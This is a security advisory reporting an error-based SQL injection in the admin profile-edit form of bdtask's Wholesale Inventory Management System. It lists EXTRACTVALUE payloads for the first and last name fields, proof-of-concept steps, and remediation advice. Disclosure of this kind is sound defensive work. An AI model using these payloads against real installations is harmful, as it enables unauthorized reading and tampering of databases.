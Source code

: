 # [Error-Based SQL Injection] in [Wholesale Inventory Management System]

---

### 👨‍💻 **BUG Author:**

### 4m3rr0r
---

### 📦 **Product Information:**

* **Vendor Homepage:** [https://www.bdtask.com](https://www.bdtask.com)
* **Software Link:** [https://codecanyon.net/item/wholesale-inventory-control-and-inventory-management-system/20291791](https://codecanyon.net/item/wholesale-inventory-control-and-inventory-management-system/20291791)
* **Demo URL:** `https://wholesaledemo.bdtask-demo.com/`
* **Affected Version:** Latest version as of 2025-10-13
* **BUG Author:** 4m3rr0r

---

### 🛠 **Vulnerability Details**

* **Type:** Error-Based SQL Injection
* **Affected URL:** `/Admin_dashboard/edit_profile`
* **Vulnerable Parameter:** `first_name`, `last_name` (in the POST request)
* **Vulnerable Component:** The user profile update functionality.

---

### 🧨 **Vulnerability Type**

* **SQL Injection**
* **CWE ID:** CWE-89: Improper Neutralization of Special Elements used in an SQL Command
* **Severity Level:** CRITICAL
* **CVSS Score:** 9.8 (Critical)

---

### 🧬 **Root Cause**

The application constructs an SQL `UPDATE` query by directly concatenating unvalidated and unsanitized user input from the "First name" and "Last name" fields. An attacker can inject a single quote (`'`) to break out of the SQL statement and append malicious commands. The application is configured to display database errors, allowing the attacker to exfiltrate data through error messages generated by functions like `EXTRACTVALUE`.

---

### ⚠️ **Impact**

* **Full Database Compromise:** An attacker can read, modify, or delete any data in the database.
* **Sensitive Data Exposure:** This includes administrator credentials, user information, inventory data, and sales records.
* **Authentication Bypass:** The vulnerability could potentially be used to extract user password hashes, leading to account takeovers.
* **Potential for RCE:** In some database configurations, SQL injection can be escalated to achieve Remote Code Execution on the server.

---

### 📋 **Description**

1.  **Vulnerability Details:**
    * The `edit_profile` page allows authenticated admins to update their personal information.
    * The `first_name` and `last_name` parameters are directly included in an SQL query without the use of prepared statements.

2.  **Attack Vectors:**
    * An attacker can use error-based payloads to force the MySQL database to reveal information within its error messages.
    * The `EXTRACTVALUE` function is used to trigger an invalid XPath syntax error, which includes the output of a nested SQL function (e.g., `VERSION()`).

3.  **Attack Payload Examples:**
    * To get the database version:
        ```sql
        ' AND EXTRACTVALUE(1, CONCAT(0x3a, VERSION())) -- -
        ```
    * To get the database user:
        ```sql
        ' AND EXTRACTVALUE(1, CONCAT(0x3a, USER())) -- -
        ```
    * To get the database name:
        ```sql
        ' AND EXTRACTVALUE(1, CONCAT(0x3a, DATABASE())) -- -
        ```

---

### 🔬 **Proof of Concept (PoC)**


[![Watch the video](https://img.youtube.com/vi/mYOFMDAEaYo/0.jpg)](https://youtu.be/mYOFMDAEaYo)


1.  Log in to the administrator panel.
2.  Navigate to the **"Edit Profile"** page (`/Admin_dashboard/edit_profile`).
3.  In the **"Last name"** field, enter the following payload:
    `' AND EXTRACTVALUE(1, CONCAT(0x3a, VERSION())) -- -`
4.  Submit the form.
5.  The application will fail and display a database error message on the screen, such as:
    `XPATH syntax error: ':10.11.13-MariaDB'`
6.  This error message confirms the vulnerability and reveals the database version. The same technique can be used with `USER()` and `DATABASE()` to extract more information.

---

### 🛡 **Suggested Remediation**

* **Use Parameterized Queries (Prepared Statements):** This is the most effective way to prevent SQL injection. The database query and the user data should be sent separately.
* **Validate and Sanitize Input:** As a secondary defense, all user input should be validated against a strict whitelist of expected characters and formats.


### 🔐 **Security Recommendations**

* Disable detailed database error messages in the production environment.
* Apply the Principle of Least Privilege to the database user, ensuring it only has the minimum permissions necessary.
* Conduct regular security code reviews and use static analysis (SAST) tools to find vulnerabilities.

---

### 📚 **References**

* [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)

---
